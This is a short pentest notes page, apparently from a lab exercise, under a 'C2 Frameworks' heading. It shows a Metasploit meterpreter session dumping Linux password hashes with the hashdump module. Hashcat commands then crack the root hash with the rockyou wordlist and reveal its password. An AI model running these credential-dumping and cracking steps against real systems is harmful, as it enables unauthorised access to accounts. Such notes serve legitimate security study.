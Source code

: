 # C2 Frameworks

## Metasploit

TODO: Fill this info

```
meterpreter > run post/linux/gather/hashdump

[-] Failed to open file: /etc/security/opasswd: core_channel_open: Operation failed: 1
[+] root:$6$Tb/euwmK$OXA.dwMeOAcopwBl68boTG5zi65wIHsc84OWAIye5VITLLtVlaXvRDJXET..it8r.jbrlpfZeMdwD3B0fGxJI0:0:0:root:/root:/bin/bash
[+] user:$6$hDHLpYuo$El6r99ivR20zrEPUnujk/DgKieYIuqvf9V7M.6t6IZzxpwxGIvhqTwciEw16y/B.7ZrxVk1LOHmVb/xyEyoUg.:1000:1000:user,,,:/home/user:/bin/bash
[+] Unshadowed Password File: /root/.msf4/loot/20220523135620_default_10.10.198.41_linux.hashes_820054.txt
```

```
$ sudo hashcat -a 0 -m 1800 /root/.msf4/loot/20220523135620_default_10.10.198.41_linux.hashes_820054.txt /usr/share/wordlists/rockyou.txt -O --force
```

```
$ sudo hashcat -a 0 -m 1800 /root/.msf4/loot/20220523135620_default_10.10.198.41_linux.hashes_820054.txt /usr/share/wordlists/rockyou.txt -O --force --show
$6$Tb/euwmK$OXA.dwMeOAcopwBl68boTG5zi65wIHsc84OWAIye5VITLLtVlaXvRDJXET..it8r.jbrlpfZeMdwD3B0fGxJI0:password123
```

---
## References

### Backlinks

- [[07 - Tactics & Techniques & Procedures Phases/F - Post Exploitation/0x02 - Privilege Escalation/Linux/Local Privilege Escalation/Credentials/Password Cracking/Living off the Land]]

### Rapid7

- [Rapid7: Metasploit Framework - Crack Linux Auxiliary Analyze Module](https://github.com/rapid7/metasploit-framework/blob/master/documentation/modules/auxiliary/analyze/crack_linux.md)